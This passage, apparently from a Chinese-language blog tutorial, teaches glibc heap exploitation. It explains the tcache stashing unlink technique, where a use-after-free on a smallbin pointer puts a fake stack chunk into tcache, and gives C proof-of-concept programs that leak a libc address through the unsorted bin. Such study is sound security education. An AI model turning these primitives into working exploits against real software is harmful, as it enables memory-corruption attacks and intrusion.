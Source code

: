 ```
    fprintf(stderr, "As you can see, next malloc(0x90) will return the region our fake chunk: %p\n",(void*)target);
    return 0;
}

```

这个 poc 用栈上的一个数组上模拟 `fake_chunk` 。首先构造出 5 个 `tcache chunk` 和 2 个 `smallbin chunk` 的情况。模拟 `UAF` 漏洞修改 `bin2->bk` 为 `fake_chunk` ，在 `calloc(0x90)` 的时候触发攻击。

在 `calloc` 处下断点，调用前查看堆块排布情况。此时 `tcache[0xa0]` 中有 5 个空闲块。可以看到 chunk1->bk 已经被改为了 `fake_chunk_addr` 。而 `fake_chunk->bk` 也写上了一个可写地址。由于 `smallbin` 是按照 `bk` 指针寻块的，分配得到的顺序应当是 `0x555555757250->0x555555757390->0x7fffffffdc50 (FIFO)` 。调用 calloc 会返回给用户 `0x555555757250+0x10`。

![image-20220328165440709](https://s2.loli.net/2022/03/28/2QONislLBGD7b4a.png)

调用 calloc 后再查看堆块排布情况，可以看到 `fake_chunk` 已经被链入 `tcache_entry[8]` , 且因为分配顺序变成了 `LIFO` , `0x7fffffffdc60-0x10` 这个块被提到了链表头，下次 `malloc(0x90)` 即可获得这个块。

其 fd 指向下一个空闲块，在 unlink 过程中 `bck->fd=bin` 的赋值操作使得 

![image-20220328165626997](https://s2.loli.net/2022/03/28/sv7UW3KEGL6VaPt.png)

## libc leak

在以前的 libc 版本中，我们只需这样:

```
#include <stdlib.h>
#include <stdio.h>

int main()
{
    long *a = malloc(0x1000);
    malloc(0x10);
    free(a);
    printf("%p\n",a[0]);
} 
```

但是在 2.26 之后的 libc 版本后，我们首先得先把 tcache 填满：

```
#include <stdlib.h>
#include <stdio.h>

int main(int argc , char* argv[])
{
    long* t[7];
    long *a=malloc(0x100);
    long *b=malloc(0x10);

    // make tcache bin full
    for(int i=0;i<7;i++)
        t[i]=malloc(0x100);
    for(int i=0;i<7;i++)
        free(t[i]);

    free(a);
    // a is put in an unsorted bin because the tcache bin of this size is full
    printf("%p\n",a[0]);
} 
```
